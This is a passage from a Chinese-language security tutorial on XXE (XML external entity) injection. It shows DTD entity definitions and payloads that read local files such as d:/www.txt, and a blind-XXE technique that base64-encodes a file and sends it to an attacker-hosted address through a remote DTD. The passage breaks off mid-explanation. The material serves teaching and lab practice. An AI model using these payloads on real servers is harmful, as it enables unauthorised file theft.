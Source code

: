 ```
<!ENTITY send SYSTEM "file:///d:/test.txt">
```

一旦XXE漏洞使得目标服务器成功访问到外部实体文件，则会执行外部实体文件的内容

**备注：**条件：看对方的代码有没有禁用外部实体引用，这也是防御XXE的一种措施。如果禁用外部实体，即使存在XXE漏洞，目标服务器也不能执行外部实体内容。类似文件包含中的远程包含。

#### 演示

127.0.0.1主机的www目录下存在一个evil2.dtd，内容如下

```
<!ENTITY send SYSTEM "file:///d:/www.txt">
```

构造payload读取D盘下的`www.txt`文件，内容是`abcdefg`

```
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "http://127.0.0.1/evil2.dtd">
		%file;
]>
<x>&send;</x>
```

在XXE漏洞处执行上述payload，成功通过XXE执行外部实体内容，访问到`www.txt`文件内容

![](https://img.yatjay.top/md/202203152128024.png)

### 无回显XXE漏洞读取文件

#### 写法

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
		<!ENTITY % dtd SYSTEM "http://192.168.xx.xxx:80XX/test.dtd">
		%dtd;
		%send;
]>
```

远程文件`test.dtd`内容如下
```dtd
<!ENTITY % payload
	"<!ENTITY &#x25; send SYSTEM
'http://192.168.xx.xxx:80xx/?data=%file;'>"
>
%payload;
```

上面xml的payload中的URL一般是自己的网站地址

第一步：PHP伪协议访问服务器自己的文件，将访问文件内容写到`%file`当中
